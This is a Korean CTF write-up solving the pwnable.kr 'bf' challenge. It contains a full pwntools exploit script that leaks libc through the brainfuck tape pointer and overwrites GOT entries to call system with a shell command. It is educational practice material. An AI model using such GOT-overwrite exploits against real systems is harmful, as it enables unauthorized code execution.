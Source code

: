 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-49-30.png)


# **Write-Up**

bf바이너리 파일의 정보를 확인하면 PIE가 존재하지 않아 전역 변수와 사용자 정의 함수의 주소가 변경되지 않는다.

```sh
root@ubuntu:~# checksec bf
[*] '/root/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

bf_libc.so는 다음과 같다.

```sh
root@ubuntu:~# checksec bf_libc.so
[*] '/root/bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

공유라이브러리와 실행파일은 32bit이므로 ida 32bit로 열자.

![](images/2022-01-04-16-50-15.png)

do_brainfuck함수를 살펴보자.

    1. 43 (+)이 들어오면 p가 가르키는 주소의 값을 증가시킨다.
    2. 44 (,)가 들어오면 1byte입력받아 p에 저장한다.
    3. 45 (-)가 들어오면 p가 가르키는 주소의 값을 감소시킨다.
    4. 46 (.)이 들어오면 p의 값을 1byte 출력한다.
    5. 60 (<)이 들어오면 p의 값을 감소 시킨다.
    6. 62 (>)가 들어오면 p의 값을 증가 시킨다.

![](images/2022-01-04-16-50-20.png)

p는 tape의 주소가 들어간다.

![](images/2022-01-04-16-50-26.png)

즉, p의 초기 값은 tape의 주소이고, 이는 0x0804A0A0이다.

![](images/2022-01-04-16-50-32.png)

bf바이너리 파일과 bf_libc.so 공유 라이브러리 파일에는 flag를 출력하는 로직이 없기 때문에, system함수를 호출해야 할 것 같다.

또한 bf에는 system함수가 없고 bf_libc.so에만 system함수가 존재한다.

따라서 bf_libc.so의 베이스 주소를 leak하여 system함수의 offset (0x3ADA0)만큼 더하면 system함수의 주소가 된다.

```sh
root@ubuntu:~# gdb ./bf_libc.so
... 생략 ...
(gdb) p system
$1 = {<text variable, no debug info>} 0x3ada0 <system>
```

또한 /bin/sh 혹은 /bin/bash등의 문자열이 존재하지 않으므로, system의 매개변수로 OS Command를 넣기 위한 gets함수를 사용하자.

```sh
root@ubuntu:~# gdb ./bf_libc.so
... 생략 ...
(gdb) p gets
$1 = {<text variable, no debug info>} 0x5f3e0 <gets>
```

main함수에는 stdin, stdout, memset, fgets등의 함수들이 존재한다.

![](images/2022-01-04-16-51-26.png)

먼저 p의 값은 tape의 주소이므로 0x0804A0A0이 되고, fgets의 got 주소의 차이만큼 연산하여 맞추기 위해 fgets의 got 주소를 알아내자. (0x0904A010)

![](images/2022-01-04-16-51-34.png)

그리고 p의 값을 fgets의 주소로 맞추자.

```python
from pwn import *
context(arch='i386', os='linux')
e               = ELF("./bf")

tape_addr       = 0x0804A0A0
fgets_got_addr  = e.got['fgets']

payload     = ''
payload     += '<'* (tape_addr - fgets_got_addr)
print(payload + '.')

[Output]
... 생략 ...
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<.
```

case 46에 break를 걸고 p의 값을 확인해보면 fgets got주소가 되었음을 확인할 수 있다.

![](images/2022-01-04-16-51-47.png)

그리고 이 주소는 bf_libc.so로부터 메모리에 매핑한 fgets의 주소이다.

![](images/2022-01-04-16-51-54.png)

즉, "." (출력)과 ">" (값 증가)를 통해 fgets의 메모리 주소를 구할 수 있고, fgets의 상대 주소를 빼면 bf_libc.so의 베이스 주소를 구할 수 있다.

fgets의 상대 주소는 0x5E150이다.

```python
root@ubuntu:~# gdb ./bf_libc.so
... 생략 ...
(gdb) p fgets
$1 = {<text variable, no debug info>} 0x5e150 <fgets>
```

따라서 exploit코드는 다음과 같다.

```python
from pwn import *

#context.log_level = 'debug'
context(arch='i386', os='linux')
r       = remote('pwnable.kr', 9001)
e       = ELF("./bf")
l       = ELF("./bf_libc.so")

fgets_got_addr  = e.got['fgets']
memset_got_addr = e.got['memset']
putchar_got_addr= e.got['putchar']
main_addr       = 0x08048671
tape_addr       = 0x0804A0A0

fgets_virtual_addr  = l.symbols['fgets']
gets_virtual_addr   = l.symbols['gets']
system_virtual_addr = l.symbols['system']

payload     = ''
payload     += '<' * (tape_addr - fgets_got_addr) # p의 값을 fgets의 got주소로 변경한다.
payload     += '.>' * 4 # p의 값을 출력하고 +1 증가시켜 fgets의 메모리 주소를 leak한다.
payload     += '<' * 4 # p의 값을 다시 4 감소 시켜 fgets의 got주소로 맞춘다.
payload     += ',>' * 4 # fgets의 got주소를 system함수로 overwrite하기 위해 입력받는다.
payload     += '<' * 4 # 원래 fgets의 got주소로 다시 맞춘다.

payload     += '>' * (memset_got_addr - fgets_got_addr) # p의 값을 memset의 got주소로 변경한다.
payload     += ',>' * 4 # memset의 got주소를 system함수로 overwrite하기 위해 입력받는다.
payload     += '<' * 4 # 원래 memset의 got주소로 다시 맞춘다.

payload     += ">" * (putchar_got_addr - memset_got_addr) # p의 값을 putchar의 got주소로 변경한다.
payload     += ",>" * 4 # putchar의 got주소를 main함수로 overwrite하기 위해 입력받는다.

payload     += "." # putchar를 호출한다.

r.recvuntil("]\n")
r.sendline(payload)

fgets_real_addr = b''
for i in range(4): fgets_real_addr += r.recv(1)

libc_base_addr  = u32(fgets_real_addr) - fgets_virtual_addr
gets_real_addr  = libc_base_addr + gets_virtual_addr
system_real_addr= libc_base_addr + system_virtual_addr

log.info("libc base\t: {}".format(hex(libc_base_addr)))
log.info("gets base\t: {}".format(hex(gets_real_addr)))
log.info("system base\t: {}".format(hex(system_real_addr)))

r.send(p32(system_real_addr))
r.send(p32(gets_real_addr))
r.send(p32(main_addr))
r.recvuntil("]\n")
r.sendline('/bin/sh -c "cat flag"')
print(r.recvline().decode())

[Output]
[x] Opening connection to pwnable.kr on port 9001
[x] Opening connection to pwnable.kr on port 9001: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9001: Done
[*] 'C:\\Users\\admin\\Downloads\\bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] 'C:\\Users\\admin\\Downloads\\bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc base   : 0xf7577010
[*] gets base   : 0xf75d63f0
[*] system base : 0xf75b1db0
BrainFuck? what a weird language..

[*] Closed connection to pwnable.kr port 9001
```


# **FLAG**

**BrainFuck? what a weird language..**